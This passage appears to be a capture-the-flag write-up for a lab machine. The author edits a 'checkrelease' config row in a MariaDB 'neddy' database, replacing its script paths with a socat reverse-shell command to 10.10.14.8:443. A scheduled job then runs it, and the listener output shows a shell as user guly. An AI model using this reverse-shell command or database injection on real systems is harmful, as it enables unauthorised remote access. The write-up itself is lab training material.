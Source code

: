     | 105 | session_handler         | file                                                                     |
    +-----+-------------------------+--------------------------------------------------------------------------+
    52 rows in set (0.00 sec)



Row 86, `checkrelease` looks interesting:



    /home/guly/checkbase.pl;/home/guly/checkplugins.pl;



### Shell

I can't see those scripts, but it's seems like a command line that might
get run by something. I'll start another `socat` listener, and I'll add
my own command in:



    MariaDB [neddy]> update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443" where id = 86;
    Query OK, 1 rows affected (0.00 sec)
    Rows matched: 1  Changed: 1  Warnings: 0

    MariaDB [neddy]> select * from config where id = 86;
    +----+--------------+------------------------------------------------------------------------+
    | id | option_name  | option_value                                                           |
    +----+--------------+------------------------------------------------------------------------+
    | 86 | checkrelease | socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443 |
    +----+--------------+------------------------------------------------------------------------+
    1 row in set (0.00 sec)



A minute later I check it again, and it's been reset:



    MariaDB [neddy]> select * from config where id = 86;
    +----+--------------+-----------------------------------------------------+
    | id | option_name  | option_value                                        |
    +----+--------------+-----------------------------------------------------+
    | 86 | checkrelease | /home/guly/checkbase.pl;/home/guly/checkplugins.pl; |
    +----+--------------+-----------------------------------------------------+
    1 row in set (0.00 sec)



And I have a shell on my listener:



    root@kali# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
    guly@unattended:~$ id
    uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
